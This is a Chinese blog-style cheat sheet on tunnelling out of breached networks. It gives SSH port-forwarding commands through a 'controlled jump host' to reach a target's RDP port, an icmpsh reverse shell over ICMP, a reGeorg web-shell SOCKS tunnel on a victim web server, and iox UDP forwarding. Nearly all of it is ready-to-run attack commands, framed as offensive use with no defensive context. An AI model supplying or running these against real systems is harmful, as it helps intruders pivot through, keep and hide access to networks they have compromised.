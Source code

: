 ```yaml
---
title: 内网穿透-隧道搭建-001
layout: post
post-image: /assets/images/bg.jpg
description: 记录一些内网穿透工具和方法
tags:
- 内网穿透
- 隧道搭建
---
```


# 内网穿透-隧道搭建-001   
--法外狂徒张三      


## SSH通道

将目标机器上的3389端口映射到vps上

**1.本地转发**

在vps上执行：

`ssh -CfNg -L 1153（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

查看连接情况：

`Netstat -tulnp | grep "1153"`

连接目标机器3389

`rdesktop 127.0.0.1:1153(vps)`

**2.远程转发**

vps执行：

`ssh -CfNg -R 3307（VPS端口）:1.1.1.10:3389(目标机器及端口) root@192.168.1.11(被控跳板机)`

连接目标机器3389

`rdesktop 127.0.0.1:3307(vps)`

注：本地转发是将远程主机（服务器）某个端口的数据转发到本地机器的指定端口。远程端口转发则是在远程主机上监听一个端口，所有访问远程服务器指定端口的数据都会通过SSH隧道传输到本地的对应端口

**3.动态转发**

`ssh -CfNg -D 7000（监听端口） root@192.168.1.11(被控机器)`

SSH隧道常用参数

-C： 压缩传输，提高传输速度

-f：将SSH传输转入后台执行，不占用当前的shell

-N：建立静默连接（建立了连接，但是看不到具体会话）

-g：允许远程主机连接本地用于转发的端口

-L：本地端口转发

-R：远程端口转发

-D：动态转发（socks代理）

-P：指定SSH端口

## ICMP协议

使用工具icmpsh

关闭ping命令

`Sysctl -w net.ipv4.icmp_echo_ignore_all=1`

`Icmpsh.exe -t 192.168.1.7 -d 500 -b 30 -s 128`

## HTTP协议

工具：reGeorg

上传reg脚本后，当页面“Georg says, 'All seems fine'”，表示脚本运行正常

本地机器执行：

`python2 reGeorgSocksProxy.py -p 9999 -u http://ip:8080/tunnel/tunnel.jsp`

注：流量为明文，需要隐藏时可下载neo-reGeorg



## UDP

工具：IOX

```
./iox fwd -l 53 -r *127.0.0.1:8888 -k 000102 -u
./iox fwd -l *8888 -l *9999 -k 000102 -u
./iox fwd -r *127.0.0.1:9999 -r 8.8.8.8:53 -k 000102 -u
```

更多见官方介绍 ，[iox](https://github.com/EddieIvan01/iox)



---

